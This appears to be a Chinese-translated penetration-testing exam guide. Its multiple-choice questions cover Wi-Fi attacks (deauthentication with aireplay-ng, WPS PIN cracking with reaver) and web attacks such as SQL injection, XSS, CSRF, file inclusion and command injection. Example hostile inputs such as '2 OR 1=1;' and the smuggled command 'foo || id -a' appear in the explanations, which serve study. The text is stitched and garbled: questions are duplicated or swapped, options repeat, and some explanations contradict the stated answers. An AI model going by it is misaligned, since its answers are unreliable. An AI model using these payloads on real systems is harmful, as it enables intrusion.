**A** 是正确的。该命令意图是拒绝服务的主要线索是使用了 `aireplay-ng`（`aircrack-ng` 套件中的一个工具，用于向无线网络注入数据包）并配合了 `-0` 标志。该标志用于指示工具应发送去身份认证帧（deauthentication frames）；紧随其后的数字是计数——但数字 `0` 除外，`0` 表示应无限发送去身份认证帧。根据这些事实和给出的选项，该命令是针对 MAC 地址 `FE:DC:BA:09:87:65` 的无线干扰 DoS 攻击。实现无线 DoS 攻击的另一种方法是使用 `Websploit` 框架中的 `wifi/wifi_jammer` 模块。

**B**、**C** 和 **D** 是错误的。**B** 错误是因为 `reaver` 是最适合针对 WPS 启用网络的攻击工具。它在 `PIN` 被破解后还能恢复该网络的 WPA 密码。**C** 错误是因为流量收集属于 `aircrack-ng` 套件中 `airodump-ng` 工具的范畴，因为它是一个专为无线网络编写的数据包捕获工具。**D** 错误是因为建立代理最适合像 `mitmproxy` 这样的工具，它可以拦截 HTTP 和 SSL 或 TLS 保护的连接。

**10 .** 哪种加密协议是 802.11 无线通信原始标准的一部分，并被认为是一种破解的加密算法？

**A.** WPA
**B.** WPA-Enterprise
**C.** WEP
**D.** ARP

**C** 是正确的。有线等协议（WEP）是原始 802.11 无线通信标准的一部分，但现在被认为是一种破解的加密算法。其弱性源于 `WEP` 中使用的 `RC4` 流加密器的实现缺陷，这导致系统频繁地重用相关的 `RC4` 密钥，从而可能完全破解该加密。

**A**、**B** 和 **D** 是错误的。**A** 和 **B** 错误是因为 `WPA` 协议及其子类型是在 2003 年引入的，在 802.11 标准最初创建六年后。**D** 错误是因为 `ARP` 不是加密协议。相反，它指的是地址解析协议，用于网络中将二层地址（例如 MAC 地址）连接到三层地址（例如 `IPv4` 逻辑地址）。

**11 .** 哪种安全标准的设计目的是简化消费级设备和家庭无线网络的连接过程，但如果启用 `PIN` 功能（许多家庭路由器的默认设置）则容易受到远程攻击，或者如果无线接入点未受到物理保护，则容易受到本地攻击？

**A.** WPA2
**B.** WPS
**C.** TKIP
**D.** PSK

**B** 是正确的。Wi-Fi 保护设置（WPS）是 `WPA` 的一种增强，旨在简化家庭无线网络的部署。其实现中的一个漏洞使得在较短时间内暴力破解用于简化连接的 `PIN`，从而轻而易举地恢复 `WPA` 密码。此外，如果恶意攻击者能够获取 `PIN`，就可以连接接入点。

**A**、**C** 和 **D** 是错误的。**A** 错误是因为 `WPA2` 是为了增强安全性而设计的。**C** 错误是因为临时密钥性协议（TKIP）是 `WPA` 使用的一种加密协议，旨在增强 `WEP` 的安全性。`TKIP` 为每个数据包使用加密密钥，使用了更强的算法。**D** 错误是因为预共享密钥（PSK）本质上是允许连接到 `WPA` 网络的密码。

**12 .** 考虑所示命令。在列出的选项中，运行此命令的最可能的意图是什么？



**A.** 监听发往目标接入点的流量以收集四次握手信息
**B.** 通过向连接到接入点的客户端发送去身份认证帧来进行拒绝攻击
**C.** 定位 WPS 启用网络
**D.** 暴力破解 WPS `PIN` 以获取无线接入密码

**D** 是正确的。`reaver` 命令是一种专门针对 WPS 启用网络的攻击工具。由于它在执行任何操作之前都需要目标接入点的信息，可能的答案是暴力破解 WPS `PIN` 以获取无线接入密码。

**A**、**B** 和 **C** 是错误的。**A** 错误是因为 `aircrack-ng` 用于破解 `WEP` 和 `WPA` PSK；像 `wash` 这样的工具更适合检测 WPS 启用接入点。**B** 错误是因为拒绝服务攻击最适合 `Websploit` 框架的 `wifi/jammer` 模块。**C** 错误是因为 `reaver` 只针对 WPS AP；它并不发现它们。该功能最好由 `wash` 提供。

**13 .** 考虑所示命令。在列出的选项中，攻击者运行此命令的最可能的意图是什么？


**A.** 定位 WPS 启用网络
**B.** 在破解 WPS `PIN` 后收集 WPS 启用路由器的接入密码
**C.** 监听网络探测以识别受害者将连接的 ESSID
**D.** 根据数据包捕获文件离线破解 WEP 接入密码

**D** 是正确的。使用 `aircrack-ng` 并读取多个 PCAP 文件表明，这最可能是为了破解无线接入点的 `PSK`。


很少有技术像互联网这样被迅速且广泛地采用——即时购物、整个百科全书的知识以及跳舞的猫，对于地球上的任何人在任何时间来说，只需几次击键即可实现。这种普及性为漏洞提供了许多机会，既影响了提供数据的服务器也影响了终端用户。在服务器端，SQL 注入或命令注入可能会提供 shell 访问权限，登录页面可能会受到暴力破解的攻击或完全被绕过。此外，配置不当也可能导致信息泄露或其他利用。客户端 HTML 注入是一个令人担忧的问题，跨站脚本（XSS）以及其他“浏览器中中间人”类型的漏洞也是如此。通常，此类漏洞可以被链式使用以提供 shell 访问权限，或者甚至可以单独利用它们来实现。作为一名渗透测试人员，由于网站和数据库在信息共享中被广泛使用，你对此类漏洞的理解至关重要。本章将重点关注网站的特定漏洞以及利用这些漏洞的技术。

## QUESTIONS

**1** 哪类攻击针对关系型数据库，并在具备条件的情况下可用于绕过身份验证；显示、修改或破坏数据；甚至获取系统级 shell 访问权限？它通常依赖于用户输入中缺乏对转义字符的过滤，通过使用参数化查询进行缓解。
**A.** HTML 注入
**B.** 代码注入
**C.** SQL 注入
**D.** 参数污染

**2** 当 Web 应用如下 URL 所示，仅根据用户提供的输入提供信息访问时，存在哪种类型的漏洞？[`https://127.0.0.1/salesrecords?salesreceipt=11532`](https://127.0.0.1/salesrecords?salesreceipt=11532)
**A.** 命令注入
**B.** 反射型跨站脚本
**C.** 不安全的对象引用
**D.** 点击劫持

**3** 当 Web 接受用户的不可信输入并引导其跳转到新页面时，发生哪种类的 Web 漏洞？
**A.** 远程文件包含
**B.** 未验证重定向
**C.** 目录遍历
**D.** 跨站

**4** 客户端 HTML 注入关注的是将恶意代码注入网站的哪种攻击？在这种特定情况下，恶意代码存储在网站中并触发执行。
**A.** DOM 型 XSS
**B.** 本地文件包含
**C.** Cookie 劫持
**D.** 跨站请求伪造

**5** 哪项漏洞被定义为由于功能未被禁用而导致攻击者可以无意中利用 API 接口？（选择一项）
**A.** 硬编码凭据
**B.** 功能漏洞
**C.** 数据存储
**D.** 未授权

**6** 根据以下 URL，攻击者的可能意图是什么？（考虑以下场景）
...：
**A.** DOM 型 XSS
**B.** 本地文件包含
**C.** 目录遍历
**D.** 跨站伪造

**7** 根据以下 URL，哪种漏洞是由于功能未被禁用而导致利用的？
...：
**A.** 硬编码凭据
**B.** 功能漏洞
**C.** 数据存储
**D.** 未授权

（此处省略）

**8** 哪些漏洞或攻击被链式使用导致了创建？（选择两项）
**A.** CSRF
**B.** 不安全对象引用
**C.** 代码注入
**D.** 目录遍历

**9** 在此第一个截图中，下拉框用于选择显示用户姓名的用户 ID。
...：
任何向服务器上传恶意 JavaScript 的尝试都会遇到 400 错误。然而，通过修改 URL，攻击者能够欺骗浏览器在服务器不知的情况下执行代码。这里发生了哪种类型的攻击？
**A.** XSS
**B.** 会话劫持
**C.** SQL 注入
**D.** 点击劫持

**10** 在此处的 POST 请求中获取了输出。利用了哪种攻击方法？
**A.** 反射型 XSS
**B.** DOM 型 XSS
**C.** HTML 注入
**D.** 参数污染

**11** 考虑来自 DVWA 的以下截图。执行后，页面显示了 Web 运行的环境。这里发生了哪种攻击？
**A.** HTML 注入
**B.** 命令注入
**C.** 存储型 XSS
**D.** 会话劫持

**12** 考虑插图中所示的修改后的 HTTP 请求。正在尝试哪种攻击？
**A.** 本地文件包含
**B.** 证书固定
**C.** CSRF
**D.** 远程文件包含

**13** 通过的本地文件包含（LFI）漏洞浏览 PHP 文件时，你在一个处理数据库查询的函数中看到了以下行：
```php
define('DB_USERNAME', 'seth'); define('DB_PASSWORD', 'GoCubs21!@');
```
这种信息泄露是哪种不安全编码实践的示例？
**A.** 硬编码凭据
**B.** 源代码中的注释
**C.** 竞态条件
**D.** 详细的错误处理

**14** 在给出的选项中，DVWA 此组件的哪种漏洞被利用了？
**A.** XSS


## B. 本地文件包含
## C. 代码注入
## D. Cookie 操纵

### 15 考虑所泄露的信息。这如何帮助攻击者扩大对系统的访问权限？（选择两个。）

A. `/etc/passwd` 文件的内容可以识别潜在的钓鱼电子邮件地址。
B. 了解用户账户的 shell 权限将使破解密码变得更容易。
C. 暴露 `/etc/passwd` 中的用户列表可能允许攻击者识别出标准用户之外的系统账户，从而通过暴力破解或其他手段对其进行攻击。
D. 该 URL 字符串还演示了目录遍历，允许攻击者在运行 Web 服务器的用户范围内读取系统上的任何文件。

***

### 快速答案对照

1 . C
2 . C
3 . B
4 . D
5 . B
6 . A
7 . C
8 . A, B
9 . C
10 . B
11 . B
12 . D
13 . A
14 . B
15 . C, D

***

### 深度解析

1 . 哪类攻击针对关系型数据库，并用于绕过身份验证；显示或修改数据；甚至在条件允许的情况下获取系统的 shell 访问？它通常依赖于对用户输入中的转义字符缺乏过滤，或对用户输入缺乏足够的控制，并且通过使用参数化查询来缓解。

A. HTML 注入
B. 代码注入
C. SQL 注入
D. 参数污染

 **C** 是正确的。描述的攻击是 SQL 注入。注意关于关系型数据库的线索，它们以表和行的方式存储数据，使得项可以快速交叉引用或关联。关系型数据库的示例包括 MariaDB、MySQL 和 MSSQL。相比之下，非关系数据库不将数据存储在系列表或行，而是存储在 JSON（JavaScript 对象表示）数据集中。非关系数据库通常被称为 NoSQL 数据库，最常见的例子是 MongoDB。

 **A**、**B** 和 **D** 是错误的。**A** 是错误的，因为 HTML 注入发生在用户输入清理不当，允许攻击者在网页上添加任意 HTML 代码。例如，添加精心构造的 JavaScript 命令可能会导致访问网站的用户将会话 cookie 详情发送给攻击者，或者将他们重定向到经常访问网站的恶意副本。很大一部分危险在于害者的浏览器无法区分合法内容与攻击者注入的恶意代码——代码要么全部执行，要么都不执行。**B** 是错误的，因为代码注入发生在用户或攻击者能够破坏程序的执行顺序，并在程序中插入他们自己的代码行，从而更改相关应用程序或代码的输出；这通常依赖于应用程序对用户提供的输入使用不当，尽管系统调用实现或其他机制也可能导致这种漏洞。恰述描述的 HTML 注入通用概念是代码注入的绝佳示例。**D** 是错误的，因为 HTTP 参数污染是一种应用程序模糊测试（fuzzing），它依赖于缺乏如何处理同名多个 HTTP 参数的指导。参数污染可能导致应用程序以非常异常且完全意想不到的方式运行，例如允许绕过验证或过滤器，允许用户绕过身份验证，或简单地导致应用程序错误使其无法使用。参数污染的复杂性意味着该漏洞向量必须手动测试。

2 . 当 Web 应用程序在引导用户进入新页面之前接受用户的不可信输入时，存在哪种类型的漏洞？

A. 命令注入
B. 反射跨站脚本
C. 不安全的对象引用
D. 点击劫持

 **C** 是正确的。以下内容代表的漏洞是不安全的对象引用。有两个线索清楚地指示了这一点：首先，在 URL 中使用了查询。URL 中通过 `?` 表示查询表示向服务器发送请求。其次，另一个线索是使用简单的数字来确定值。这里的危险在于好奇（或恶意的）用户可能会泄露特权信息。

 **A**、**B** 和 **D** 是错误的。**A** 是错误的，因为命令注入导致在主机操作系统上执行任意命令。这些通常发生在用户提供的输入在喂给 `system()` 调用（或其他高级语言的对应函数，如 Python 中的 `os.system()`）之前未经过适当清理，并可能导致多种可能性。这些包括修改数据（包括破坏）甚至获取拥有应用程序用户的系统 shell 访问。**B** 是错误的，因为反射跨站脚本（或 XSS）涉及将恶意代码发送 Web 服务器（通常通过欺骗用户点击恶意链接）。Web 服务器对这些恶意代码不做处理，而是将其返回给发起请求的受害者（反射），并在并在执行。反射 XSS 的常见用途盗取 cookie 或剪贴板内容以及修改网站数据。**D** 是错误的，因为点击劫持（或 UI 欺骗攻击）发生在攻击者在网页上使用数据层来欺骗用户点击他们通常会忽略的链接或按钮。

3 . 当 Web 应用程序在引导用户进入新页面之前接受用户的不可信输入时，存在哪种类型的 Web 漏洞？

A. 远程文件包含


- **A.** 未验证的重定向
- **B.** 未验证重定向
- **C.** 目录遍历
- **D.** 跨站请求伪造

 **B** 是正确的。描述的攻击是未验证重定向，它发生在 Web 应用程序接受了不可信的输入并导致访问者被重定向到另一个站点的情况下。如果攻击者利用这一点并链接到他们创建的恶意网站，这种攻击可能成为成功钓鱼攻击的关键部分，因为受害者更有可能信任来自他们访问过的网站的链接。

 **A**、**C** 和 **D** 都是错误的。**A** 是错误的，因为远程文件包含（RFI）发生在攻击者能够利用目标应用程序中配置不当的文件包含机制，导致 Web 应用程序从远程目标下载文件（例如托管在攻击者恶意网站上的反向 shell）。这通常是因为用户输入没有经过妥当的验证或过滤，并可能导致代码执行（客户端和服务器端）、拒绝服务或敏感信息泄露。**C** 是错误的，因为目录遍历发生在攻击者能够利用目标应用程序中配置不当的文件包含机制，导致 Web 应用程序处理原本不可访问的文件，例如系统的 `hosts` 文件或 *nix* 系统中的 `/etc/passwd` 文件。这通常是因为用户输入没有经过妥当的验证或过滤，并可能导致代码执行（客户端和服务器端）、拒绝服务或敏感信息泄露。**D** 是错误的，因为 Cookie 操控是一种针对 Web 服务器会话管理和身份验证的攻击方法。在配置不安全的 Web 服务器中，用户会话可以通过预测或静态的会话 ID 进行管理。这允许攻击者在网络上嗅探会话 ID，或者利用 XSS 诱骗目标用户自愿发送其会话令牌。

基于 DOM 的 XSS 完全存在于 `Document Object Model`（文档对象模型）中，这是受害者浏览器的一部分。通过构造恶意 URL 并诱骗用户访问（可能通过钓鱼攻击），攻击者可以诱骗受害者篡改未妥当定义或控制的 HTTP 参数。通过添加 JavaScript 代码段，受害者浏览器将被欺骗执行攻击者所需的任何任意代码——与其它 XSS 方法一样，通常是窃取会话 Cookie 或敏感数据。甚至可以使用 `#` 运算符来标记后续数据是 `URI`（统一资源标识符）片段，从而以一种对远程 Web 服务器不可的方式来实现。在处理 URL 时，URI 片段不会传输到 Web 服务器；它们通常用于不需要 Web 服务器提供信息的情况，因为浏览器已经拥有所需的所有相关数据。例如，维基百科文章同一页面内的链接利用 URI 片段创建到文章不同部分的快捷方式。这些不会触发服务器的进一步响应，但浏览器会解释它们并导航到相应的章节。

持久型 XSS（Persistent XSS）是一种跨站脚本（XSS）攻击，其中恶意脚本存储在目标服务器上。这里的关键特征是恶意代码被嵌入到受害者访问的网站中。与其他类型一样，XSS 针对的是网站访问者而非 Web 服务器本身，诱骗用户传输会话令牌或其他敏感信息。基于 DOM 的 XSS 攻击直接针对受害者的浏览器，不依赖 Web 服务器指示客户端执行代码。这与给出的示例中需要访问感染页面的情况相比，后者需要服务器的响应才能发生攻击。

CSRF（跨站请求伪造）发生在攻击者诱骗用户在当前已身份验证的 Web 应用程序上执行意想不到的操作时。CSRF 必然被用于针对目标 Web 应用程序的更改，因为访问网站的是受害者而非攻击者。CSRF 的示例包括资金或资源的转移、修改电子邮件地址或创建新账户。目录遍历对于攻击者利用重复目录遍历序列可能泄露的信息来说是非常危险的——通常在 *nix* 系统中使用 `../`，在 Windows 中使用 `..\`。

哪种客户端攻击属于一种将恶意代码嵌入网站的注入攻击大类？在这种特定类型中，用户提供的数据被存储在网站上，然后触发代码的执行——通常是 JavaScript 字符串。

- **A.** 基于 DOM 的 XSS
- **B.** 本地文件包含
- **C.** Cookie 操控
- **D.** 持久型 XSS

 **D** 是正确的。描述的攻击是持久型跨站脚本（XSS）攻击。这里的关键特征是恶意代码被嵌入到受害者访问的网站中。与其他类型一样，XSS 针对的是网站访问者而非 Web 服务器本身，诱骗用户传输会话令牌或其他敏感信息。

 **A**、**B** 和 **C** 都是错误的。**A** 是错误的，因为基于 DOM 的 XSS 攻击直接针对受害者的浏览器，不依赖 Web 服务器指示客户端执行代码。这与给出的示例中需要访问感染页面的情况相比，后者需要服务器的响应才能发生攻击。


[HTTPS://EXAMPLE.COM/ACCOUNT.CREATE?ACCT=STEVE&CONTEXT=READONLY](https://EXAMPLE.COM/ACCOUNT.CREATE?ACCT&#61;STEVE&#38;CONTEXT&#61;READONLY)

了解 Web 应用程序运行机制的攻击者选择通过钓鱼邮件中包含的链接，诱骗用户访问以下页面：

[HTTPS://EXAMPLE.COM/ACCOUNT.CREATE?ACCT=ATTACKER&CONTEXT=ADMIN](https://EXAMPLE.COM/ACCOUNT.CREATE?ACCT&#61;ATTACKER&#38;CONTEXT&#61;ADMIN)

### 6. 根据 URL，用户首次访问的页面的可能意图目的是什么？

- **A.** 创建名为 Steve 且具有只读权限的新 Web 应用程序账户
- **B.** 在底层主机上创建一个名为 Steve 的新用户，并对 `/tmp` 目录具有只读访问权限
- **C.** 在系统数据库中创建一个名为 attacker 的具有管理员权限的用户
- **D.** 创建一个名为 attacker 且具有只读权限的新 Web 应用程序账户

 **A** 是正确的。该 URL 具体引用了账户创建、名称 Steve 以及只读上下文。根据给出的选项，该 URL 最可能的意图是为名为 Steve 的用户创建一个只读权限的新 Web 应用程序。

 **B**、**C** 和 **D** 是错误的。注意，问题明确询问的是用户访问的第一个页面。**B** 是错误的，因为第一个 URL 中没有任何部分引用 `/tmp` 目录，这使得创建操作系统用户的可能性较低。**C** 是错误的，虽然没有指示该账户的用途（Web 应用程序、其底层操作系统或其数据库），但在第一个 URL 中没有表明所创建的账户预计具有管理员权限。**D** 是错误的，虽然该账户可能对 Web 应用程序有效且预计具有只读权限，但用户名应该是“Steve”而不是“Attacker”。

### 7. 根据 URL，攻击者对第二个 URL 的可能意图是什么？

- **A.** 在底层主机上创建一个名为 Steve 的新用户，并对 `/tmp` 目录具有只读访问权限
- **B.** 在系统数据库中创建一个名为 Steve 的具有管理员权限的用户
- **C.** 创建一个名为 Attacker 且具有管理员权限的新 Web 应用程序账户
- **D.** 创建一个名为 Steve 且具有只读权限的新 Web 应用程序账户

 **C** 是正确的。考虑到第一个链接（及其假设的功能）、恶意创建的链接与攻击者可能的目标之间的差异，攻击者构造的链接最可能的意图是创建一个名为“Attacker”且具有管理员权限的新 Web 应用程序账户。

 **A**、**B** 和 **D** 是错误的。注意，这个问题关注的是攻击者构造的第二个页面。**A** 是错误的，因为第二个 URL 完全没有提到 Steve、只读访问或 `/tmp` 目录。**B** 是错误的，虽然没有迹象显示创建的账户用于任何特定资源（Web 应用程序、底层数据库或主机系统）且预计具有管理员权限，但没有提到名为“Steve”的用户。**D** 是错误的，再次，既没有提到 Steve 也没有提到只读权限。

### 8. 哪些漏洞或攻击组合在一起导致了攻击者账户的创建？（选择两项。）

- **A.** CSRF
- **B.** 不安全的直接对象引用 (IDOR)
- **C.** 代码注入
- **D.** 目录遍历

 **A** 和 **B** 是正确的。URL 操纵是不安全的直接对象引用的示例。在钓鱼活动中发送恶意构造的 URL 以诱骗授权用户执行操作是 CSRF 的示例。

 **C** 和 **D** 是错误的。**C** 是错误的，因为代码注入会在 URL 中看到 JavaScript、PHP 或其他可执行语言。如文所示，CSRF 仅仅是以非法的方式利用了 Web 应用程序的合法功能。**D** 是错误的，因为没有出现目录遍历的明显迹象——没有使用 `../`、`..\` 或 URL 编码（例如使用百分比编码如 `%2F` 和 `%5C` 来绕过对斜杠和反斜杠使用的限制）。

### 9. 在第一张截图中，使用下拉框选择用户 ID 数字，并显示该用户的姓和名。



对 POST 请求进行一些修改后，获得了此处显示的输出。

 这里利用了什么 Web 应用程序攻击方法？

- **A.** XSS
- **B.** 会话劫持
- **C.** SQL 注入
- **D.** 点击劫持

 **C** 是正确的。输出演示的漏洞是 SQL 注入的典型示例——图像中的许多线索说明了这一点。第一个是在第一张截图中使用数字索引来表示用户 ID——这是处理关系型数据库时引用数据的典型方法。下一个线索在第二张截图中，所有用户 ID 都显示为 `2 OR 1=1;`。使用 `OR 1=1;` 运算符是尝试 SQL 注入的常用查询，经常用于尝试绕过身份验证机制。它的有效性在于，在 SQL 查询末尾添加 `OR 1=1;` 在没有参数化等输入控制的情况下将始终返回真。

 **A**、**B** 和 **D** 是错误的。**A** 是错误的，因为描述的攻击直接针对 Web 服务器，而不是客户端浏览器。XSS 发生在恶意代码发送到受者的 Web 浏览器时，通常通过他们经常访问的网站。**B** 是错误的，因为没有提到用户会话或相关的标识信息（如会话令牌）被攻击者盗取并使用。回会话劫持攻击针对 Web 服务器上的会话管理和验证。在配置不当的 Web 服务器中，用户会话可以通过预测或静态会话 ID 数字进行管理。**D** 是错误的，因为没有提到修改问题网页以欺骗用户点击他们本会忽略的内容。记住，点击劫持（也称为 UI 还原攻击）发生在攻击者在网页上使用多层数据，以欺骗用户点击某个链接或按钮时。

### 10. 在此处所示流行的 DVWA（可在 [`dvwa.co.uk`](http://dvwa.co.uk) 根据 GPL 获得）上进行的手动浏览器攻击中，任何向服务器上传恶意 JavaScript 的尝试都会遇到 HTTP 400 错误。然而，通过直接修改 URL，攻击者能够欺骗浏览器直接执行 JavaScript 代码而服务器不受感知。这里执行的是什么种类型的攻击？



- **A.** 反射型 XSS
- **B.** DOM 型 XSS
- **C.** HTML 注入
- **D.** HTTP 参数污染


`B` 是正确的。在包含可执行代码的 HTTP 查询（以 `?` 表明）之后使用 URI 碎片（以 `#` 表明）是基于 DOM 的 XSS 的一个良好示例。通过构造恶意 URL 并诱导用户访问（可能通过网络钓鱼攻击），受害者可能会被误导篡改未正确定义或控制的 HTTP 参数。通过添加 JavaScript 代码段，受害者浏览器将被误导执行攻击者想要的任何任意代码——通常如其他 XSS 方法一样，是窃取会话 Cookie 或其他敏感数据。在这里使用 URI 片段 特为阴险，因为当受害者点击链接时，哈希操作符（`#`）之后的数据不会发送到远程服务器，这意味着系统管理员将无法得知攻击的发生。

`A`、`C` 和 `D` 是错误的。`A` 是错误的，因为反射型 XSS 需要恶意链接向目标服务器发送 HTTP GET 或 POST 请求，然后由服务器将恶意代码片段反射（或返回）给受害者，并在其处执行。在这种情况下，使用 URI 片段意味着访问的 URL 中的恶意部分一定没有发送到服务器。`C` 是错误的，因为 HTML 注入与 XSS 属于类似的攻击（即用户被误导执行某种操作），但应用程序的编写方式仅允许发送少数 HTML 命令（例如 URL 重定向），而不是注入 JavaScript 代码。文中没有提到发送 HTML，因此根据显示的内容，该答案是错误的。`D` 是错误的，因为没有提到 HTTP 参数或对其进行修改。请记住，HTTP 参数污染（HPP）是一种应用程序模糊测试，它依赖于对如何正确处理多个同名 HTTP 参数的指导缺失。

### 11. 请考虑来自 DVWA 的以下截图。执行后，页面显示了 Web 应用程序运行的用户上下文。这里执行的是什么类型的攻击？



**A.** HTML 注入
**B.** 命令注入
**C.** 持久型 XSS
**D.** 会话劫持

`B` 是正确的。截图显示了一个命令注入尝试的阶段性示例。为了解析所使用的特定命令字符串，了解一下 \*nix shell 操作符、退出状态码和命令流会有帮助。在这种情况下，shell 操作符是 `||`，它是一个逻辑运算符，表示“或”（OR）。该运算符的作用是确保两个命令中的一个成功执行；如果第一个命令成功（即退出状态码为 `0`），则停止执行命令。如果第一个命令失败（即退出状态码非零），则按顺序发送第二个命令。在这个示例中，应用程序正在请求一个 IP 地址进行 ping 操作。因此，该阶段性命令实际上是在告诉 Web 应用程序“`ping foo`”（这几乎肯定是一个无法 ping 通的短主机名）或者在 ping 失败时运行 `id -a` 命令。由于 `foo` 不是有效的 IP 地址，命令执行失败，导致执行 `id -a`，这将泄露用户数据。在许多 \*nix 环境中，类似的运算符是 `&&`，表示“与”（AND）。即：运行第一个命令。如果它成功（即退出状态码为 `0`），则运行第二个命令。

`A`、`C` 和 `D` 是错误的。`A` 是错误的，因为本地文件包含尝试会显示出明显的目录遍历迹象。由于没有使用 `../`、`..\` 或 URL 编码（例如使用 `%2F` 和 `%5C` 来绕过对正斜和反斜杠字符的限制），且对文件的唯一引用都在主机系统之外，这不可能是本地文件包含尝试。`B` 是错误的，因为持久型 XSS 通过嵌入网站的恶意代码呈现出来。`C` 是错误的，因为 CSRF 尝试需要一个精心构造的链接，试图滥用受害者在另一个网站的身份验证会话，诱导他们执行本在通常情况下不会执行的操作。`D` 也是错误的。

### 12. 请考虑下图中所示修改后的 HTTP 请求。正在尝试什么类型的攻击？



**A.** 本地文件包含
**B.** 证书固化
**C.** CSRF
**D.** 远程文件包含

`D` 是正确的。所提供的截图显示了远程文件包含尝试的示例。关键指标是尝试将一个值重新定义为远程系统上找到文件的内容（如查询中使用 `http://` 标签所示）。

`A`、`B` 是错误的，因为证书固化（Certificate pinning）不是一种安全漏洞，而是一种用于检测中间人攻击的安全措施。在为某个站点或服务获取证书后，会将该证书的公钥或密钥与发布的有效密钥哈希集进行比对。这使得服务能够在发现欺诈证书时检测并做出反应，通常是直接拒绝连接。

等一下，当你发现一个本地文件包含（LFI）漏洞时，你在看似处理数据库查询的函数中看到了以下几行：

```php
define('DB_USERNAME', 'seth'); define('DB_PASSWORD', 'GoCubs21!@');
```

这种信息泄露是哪种不安全编码实践的示例？

**A.** 硬编码凭
**B.** 源代码中的注释
**C.** 竞态条件
**D.** 详细的错误输出


 `B`、`C` 和 `D` 是错误的。`B` 是错误的，因为在提供的部分没有显示注释；在 `PHP` 中，注释以 `/*` 开头并以 `*/` 结束。记住，源代码注释往往会揭示开发者打算以后访问和清理的有缺陷且有问题的代码段；此类注释可能指向潜在的漏洞或安全功能的不当实现，威胁系统及其所在环境的整体威胁态势。`C` 是错误的，因为在所提出的漏洞中没有迹象时间是一个关键因素。记住，竞态条件（race condition）是一种逻辑循环或命令执行序列，其结果完全取决于时间——例如 `ARP` 缓存投毒。`D` 是错误的，因为漏洞是在阅读 `PHP` 源代码时发现的，而不是通过代码产生的任何错误信息。详尽的错误处理可能出现在对应用程序进行模糊测试（fuzzing）时，而不是审查其源代码时。

*请参考下面的插回答接两个问题：*

